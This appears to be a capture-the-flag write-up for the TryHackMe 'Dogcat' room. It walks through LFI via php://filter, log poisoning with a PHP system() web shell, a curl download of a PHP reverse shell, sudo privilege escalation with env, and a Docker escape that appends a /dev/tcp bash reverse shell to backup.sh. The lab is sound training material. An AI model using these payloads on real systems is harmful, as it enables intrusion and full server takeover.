 ```yaml
---
layout: post
title: Dogcat
categories: [Tryhackme, medium]
tags: [LFI, RCE, SUID]
image: https://i.ibb.co/0XX1s2Q/DogCat.png
---
```


Hello guys and welcome to yet another Tryhackme writeup. Today we will be handling a medium room which is accessible [here](https://tryhackme.com/room/dogcat).

Well the methodology is quite similar to the Archangel methodology with quite a twist. Let's begin.

## ACCESSING THE WEBPAGE

So I ran an NMAP scan but that was not so productive, so I went directly into the site. 

First we see that the site has two buttons which when we click on dog for example, we get a picture of a dog.
![](https://i.ibb.co/1K4zM53/dog.png)

Looking closely at our URL we see that it is using the view paramater. Well that is interesting. Let us try and traverse that, using the **php://filter/convert.base64-encode/resource=./dog/../index ***. 

![](https://i.ibb.co/0mQn4pH/base64filter.png)

We can then see a base64 code on there. Let us decode it.

![](https://i.ibb.co/JH3p0rm/base64decode.png)

We get to see some php code which when we look closely at the filters we see that **ext** can be used to remove the .php which is automatically added at the end of the URL. 

## ACCESS LOGS

Let us use this parameter to view the access logs. 

![](https://i.ibb.co/gM1tmZP/accesslog.png)

Success! Next we are going to try and do some poisoning on the User-Agent using **<?php system($_GET['cmd']);?>**. 

If you are not familiar on how to do that check the Archangel writeup.  

Next let us try and run a command using **&cmd=whoami**

![](https://i.ibb.co/x12dj5X/whoami.png)

We can see that we are www-data.

## REVERSE SHELL
Now we are going to try and get a reverse shell. We can get one from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make sure to make the necessary changes to the ip and port.

Next we are gonna run a python server on our machine using **python -m http.server 80**. Then run **&cmd= curl -o revshell.php ip/revshell.php**. 

Using wget was not so successfull. We then should check our python server for a 200 status code.
With that done we can run our listener on our machine and run **&cmd= php revshell.php**, then check back on our machine for a connection.

![](https://i.ibb.co/t2Fx0MG/revshell.png)

Smooth!

## ROOT
Next we are gonna run **sudo -l** which checks the SUID capabilities. 

![](https://i.ibb.co/LpBsvj2/sudo.png)

Well we see that www-data can run the command as root. So looking at [GTFO bins](https://gtfobins.github.io/) we can see that we can exploit this by using **sudo env /bin/sh**

And we are root. 
![](https://i.ibb.co/VV2LmmZ/root.png)

## ESCAPING DOCKER

This was not straight forward since we are supposed to look for the last flag outside the container. But it is not that hard.

As we are moving around we see a file backup.sh which sort of connects to the Host and the container. We can exploit this by running the following command.

**echo "bash -i >& /dev/tcp/ip/port 0>&1" >> backup.sh**

Then start up a listener on your machine and success we are in the host.

![](https://i.ibb.co/qDSmNyk/container.png)

## RESOURCES 

[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Be sure to read the following articles for much better understanding. Happy hacking :)